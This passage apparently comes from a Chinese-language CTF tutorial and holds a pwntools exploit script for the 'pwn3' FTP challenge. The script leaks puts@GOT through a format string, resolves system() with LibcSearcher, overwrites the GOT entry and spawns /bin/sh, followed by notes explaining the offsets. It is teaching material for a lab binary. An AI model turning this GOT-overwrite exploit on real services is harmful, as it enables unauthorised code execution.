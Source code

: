 ```python
def show_dir():
    sh.sendline('dir')


tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)


## password
def password():
    sh.recvuntil('Name (ftp.hacker.server:Rainism):')
    sh.sendline(name)


##password
password()
## get the addr of puts
puts_got = pwn3.got['puts']
log.success('puts got : ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got))
puts_addr = u32(get('1111')[:4])

## get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

## modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
##gdb.attach(sh)
sh.sendline('/bin/sh;')

## system('/bin/sh')
show_dir()
sh.interactive()
```

注意

- 我在獲取 puts 函數地址時使用的偏移是 8，這是因爲我希望我輸出的前 4 個字節就是 puts 函數的地址。其實格式化字符串的首地址的偏移是 7。
- 這裏我利用了 pwntools 中的 fmtstr\_payload 函數，比較方便獲取我們希望得到的結果，有興趣的可以查看官方文檔嘗試。比如這裏 fmtstr\_payload(7, {puts\_got: system\_addr}) 的意思就是，我的格式化字符串的偏移是 7，我希望在 puts\_got 地址處寫入 system\_addr 地址。默認情況下是按照字節來寫的。

## hijack retaddr
